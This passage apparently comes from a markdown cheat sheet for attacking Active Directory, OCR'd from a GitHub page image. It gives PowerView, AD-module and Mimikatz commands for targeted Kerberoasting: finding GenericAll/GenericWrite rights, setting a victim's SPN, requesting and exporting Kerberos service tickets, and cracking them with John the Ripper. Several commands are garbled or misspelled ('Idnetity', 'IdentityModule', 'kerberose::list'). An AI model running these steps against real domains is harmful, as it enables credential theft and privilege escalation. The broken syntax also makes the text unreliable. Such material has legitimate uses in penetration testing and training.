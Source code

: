> > > > > ```bash
> > > > > ./john <HashFilePath> --wordlist=wordlist.txt 
> > > > > ```
> >
> > :one::three: ***TGS Kerberoasted*** using ***SPN***
> >
> > > :information_desk_person: GenericWrite and GenericAll are sufficient to set target user's SPN to Custom value
> > >
> > > :information_desk_person: Machine name and SPN name are unique across the domain 
> > >
> > > >  **Enumeration** 
> > > >
> > > > > **PowerView_Dev**
> > > > >
> > > > > > Look for GenericAll and/or GenericWrite permissions
> > > > > >
> > > > > > ```powershell
> > > > > > Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match <groupname>}
> > > > > > ```
> > > > > >
> > > > > > Check User SPN value 
> > > > > >
> > > > > > ```powershell
> > > > > > Get-DomainUser -Identity <username> | select ServicePrincipalName
> > > > > > ```
> > > > >
> > > > > ***AD Module***
> > > > >
> > > > > > ```powershell
> > > > > > Get-ADUser -Identity <username> -Properties ServicePrincipalName | select ServicePrincipalName 
> > > > > > ```
> > > >
> > > > **Exploit** 
> > > >
> > > > > **Set SPN Value**
> > > > >
> > > > > > ***Powerview Dev***
> > > > > >
> > > > > > > ```powershell
> > > > > > > Set-DomainObject -IDentity <username> -Set @{serviceprincipalname='<machinename/SPNname>'}
> > > > > > > ```
> > > > > > >
> > > > > > > 
> > > > > >
> > > > > > ***AD Module***
> > > > > >
> > > > > > > ```powershell
> > > > > > > Set-ADUser -Idnetity <username> -ServicePrincipalNames @{Add='<Machinename/SPNName>'}
> > > > > > > ```
> > > > >
> > > > > ***Request Service Ticket***
> > > > >
> > > > > > ***AD module***
> > > > > >
> > > > > > > ```powershell
> > > > > > > Add-Type -AssemblyName System.IdentityModel -New-Object System.IdentityModule.Tokens.KerberosRequestorSecurityToken -ArgumentList "<MAchineName/SPNNAme>"
> > > > > > > 
> > > > > > > klist 
> > > > > > > 
> > > > > > > Invoke-Mimikatz -Command '"kerberose::list /export"'